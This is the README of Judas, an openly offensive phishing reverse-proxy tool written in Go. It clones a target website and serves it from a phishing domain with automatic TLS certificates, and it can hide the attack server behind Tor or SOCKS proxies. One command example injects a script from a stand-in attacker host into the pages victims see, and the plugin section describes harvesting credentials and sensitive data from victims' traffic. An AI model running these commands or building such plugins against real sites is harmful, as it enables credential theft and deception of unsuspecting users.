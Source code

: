 Judas
=====
Judas is a pluggable phishing proxy.
It can clone any website passed to it using command line flags, and you can extend it with Go plugins for fun and profit.

```
Usage of judas:
  -address string
        Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -inject-js string
        URL to a JavaScript file you want injected.
  -insecure
        Listen without TLS.
  -insecure-target
        Not verify SSL certificate from target host.
  -plugins string
        Colon separated file path to plugin binaries.
  -proxy string
        Optional upstream SOCKS5 proxy. Useful for torification.
  -proxy-ca-cert string
        Proxy CA cert for signed requests
  -ssl-hostname string
        Hostname for SSL certificate
  -target string
        The website we want to phish.
  -with-profiler
        Attach profiler to instance.
```

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website, simply pass the `--ssl-hostname` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com
```

If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --insecure
```

If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.
This is useful for passing it through an intercepting proxy like Burp Suite for debugging purposes.

Example:
```
./judas \
    --target https://target-url-with-self-signed-cert.com \
    --proxy http://localhost:8080 \
    --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas \
    --target https://torwebsite.onion \
    --ssl-hostname phishingsite.com \
    --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --inject-js https://evil-host.com/payload.js
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Plugin with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Plugin, error)
```

The `judas.Plugin` interface has one method: `Listen`.

```
// Plugin must be implemented by a plugin to users to hook the request - response transaction.
// The Listen method will be run in its own goroutine, so plugins cannot block the rest of the program, however panics can take down the entire process.
type Plugin interface {
	Listen(results <-chan *Result)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Plugins can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

```
judas \
     --target https://www.google.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target \
     --plugin ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin path/to/plugin.go
```
